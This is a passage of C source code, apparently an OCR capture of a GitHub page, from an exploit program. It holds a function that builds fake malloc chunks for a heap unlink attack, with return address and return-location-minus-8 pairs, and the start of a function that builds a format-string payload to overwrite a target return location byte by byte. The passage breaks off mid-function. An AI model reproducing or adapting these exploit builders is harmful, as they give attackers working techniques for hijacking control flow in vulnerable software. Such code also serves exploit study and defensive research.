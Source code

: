     if (words < 14) {
        fprintf(stderr, "unlinkchunk(): Small buffer\n");
        return(NULL);
    }

    if ( (chunk = calloc(words*sizeof(u_int)+1, 1)) == NULL) {
        perror("calloc()");
        return(NULL);
    }

    chunk[i++] = -4;
    chunk[i++] = -4;
    chunk[i++] = -4;
    chunk[i++] = ret;
    chunk[i++] = retloc-8;

    chunk[i++] = -4;
    chunk[i++] = -4;
    chunk[i++] = -4;
    chunk[i++] = ret;
    chunk[i++] = retloc-8;

    for (; i<words; i++) {

        /* Relative negative offset to first chunk */
        if (i % 2)
            chunk[i] = ((-(i-8)*4) & ~(IS_MMAP|NON_MAIN_ARENA))|PREV_INUSE;
        /* Relative negative offset to second chunk */
        else
            chunk[i] = ((-(i-3)*4) & ~(IS_MMAP|NON_MAIN_ARENA))|PREV_INUSE;
    }
    return((char *)chunk);
}

int
mkfmtstr(struct target *tgt, u_int ret,
        char *buf, size_t buflen)
{
    size_t pad;
    size_t espoff;
    size_t written;
    int tmp;
    int wb;
    int i;

    if (buflen < 50) {
        fprintf(stderr, "mkfmtstr(): small buffer\n");
        return(-1);
    }
    memset(buf, 'P', tgt->pad % 4);
    buf += tgt->pad % 4;
    written = tgt->written;

    /* Add dummy/retloc pairs */
    *(u_long *)buf = DUMMY;
    *(u_long *)(buf +4) = tgt->retloc;
    buf += 8;
    *(u_long *)buf = DUMMY;
    *(u_long *)(buf +4) = tgt->retloc+1;
    buf += 8;
    *(u_long *)buf = DUMMY;
    *(u_long *)(buf +4) = tgt->retloc+2;
    buf += 8;
    *(u_long *)buf = DUMMY;
    *(u_long *)(buf +4) = tgt->retloc+3;
    buf += 8;
    buflen -= 32;
